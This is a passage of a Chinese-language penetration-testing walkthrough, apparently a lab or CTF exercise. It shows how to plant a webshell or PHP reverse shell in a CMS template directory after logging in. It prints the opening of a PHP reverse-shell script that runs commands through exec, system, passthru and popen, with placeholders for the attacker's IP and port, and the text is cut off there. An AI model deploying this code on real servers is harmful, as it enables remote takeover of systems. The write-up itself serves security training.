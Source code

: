 ##### 反弹shell

登陆后，就要开始寻找有没有可以getshell的地方，这类的cms肯定是有上传文件的地方，这里可以上传一个一句话木马，用蚁剑进行连接，也可以写一个php，反弹shell到我们的攻击机上，这边，经过寻找发现了有个templates的beez3的目录

![image-20230806122605242](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806122605242.png)

![image-20230806122701155](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806122701155.png)

![image-20230806122804702](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806122804702.png)

创建一个文件

![image-20230806130117210](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806130117210.png)

写入php反弹shell

![image-20230806125722663](https://gitee.com/zh_sng/cartographic-bed/raw/master/img/image-20230806125722663.png)

```php
<?php
function which($pr) {
	$path = execute("which $pr");
	return ($path ? $path : $pr);
	}
function execute($cfe) {
	$res = '';
	if ($cfe) {
		if(function_exists('exec')) {
			@exec($cfe,$res);
			$res = join("\n",$res);
			} 
			elseif(function_exists('shell_exec')) {
			$res = @shell_exec($cfe);
			} elseif(function_exists('system')) {
@ob_start();
@system($cfe);
$res = @ob_get_contents();
@ob_end_clean();
} elseif(function_exists('passthru')) {
@ob_start();
@passthru($cfe);
$res = @ob_get_contents();
@ob_end_clean();
} elseif(@is_resource($f = @popen($cfe,"r"))) {
$res = '';
while(!@feof($f)) {
$res .= @fread($f,1024);
}
@pclose($f);
}
}
return $res;
}
function cf($fname,$text){
if($fp=@fopen($fname,'w')) {
@fputs($fp,@base64_decode($text));
@fclose($fp);
}
}
$yourip = "your IP";
$yourport = 'your port';
$usedb = array('perl'=>'perl','c'=>'c');
```